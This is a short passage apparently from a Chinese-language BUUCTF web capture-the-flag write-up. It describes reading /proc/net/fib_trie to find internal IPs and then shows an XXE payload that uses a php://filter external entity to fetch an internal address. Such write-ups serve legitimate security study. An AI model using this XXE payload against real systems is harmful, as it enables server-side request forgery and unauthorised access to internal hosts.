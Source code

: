 

`/proc/net/fib_trie`路由缓存<img src="/images/buuctf-web2/image-20221026142234341.png" alt="image-20221026142234341" style="zoom:67%;" />

上面发现的两个可疑IP,使用php协议来读取一下:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://10.244.80.130">
]>
```
